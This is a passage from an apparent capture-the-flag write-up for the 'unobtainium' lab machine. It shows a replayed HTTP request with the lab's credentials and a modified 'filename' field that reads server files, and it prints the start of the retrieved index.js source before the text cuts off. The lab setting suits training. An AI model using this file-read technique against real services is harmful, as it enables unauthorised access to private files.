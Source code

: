 The package looks like this:
```
HTTP/1.1

Host: unobtainium.htb:31337

Connection: keep-alive

Content-Length: 73

Accept: application/json, text/javascript, */*; q=0.01

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) unobtainium/1.0.0 Chrome/87.0.4280.141 Electron/11.2.0 Safari/537.36

Content-Type: application/json

Accept-Encoding: gzip, deflate

Accept-Language: en-US



{"auth":{"name":"felamos","password":"Winter2021"},"filename":"todo.txt"}
```

We can use postman or the REST plugin for firefox or burpsuite to recreate this package and send it manually. We can change the filename to read other files in the same directory as the todo.txt. We use this to retrieve the index.js by changing the body to this:

```
{"auth":{"name":"felamos","password":"Winter2021"},"filename":"index.js"}
```

index.js
```js
var root = require("google-cloudstorage-commands");
const express = require('express');
const { exec } = require("child_process");
const bodyParser = require('body-parser'); 
const _ = require('lodash'); 
const app = express();
var fs = require('fs');
 
const users = [ 
 {name: 'felamos', password: 'Winter2021'},
 {name: 'admin', password: Math.random().toString(32), canDelete: true, canUpload: true}, 
];

let messages = []; 
let lastId = 1; 
 
function findUser(auth) { 
 return users.find((u) => 
 u.name === auth.name && 
 u.password === auth.password); 
} 
 
app.use(bodyParser.json()); 
 
app.get('/', (req, res) => { 
 res.send(messages); 
}); 
 
app.put('/', (req, res) => { 
 const user = findUser(req.body.auth || {}); 
```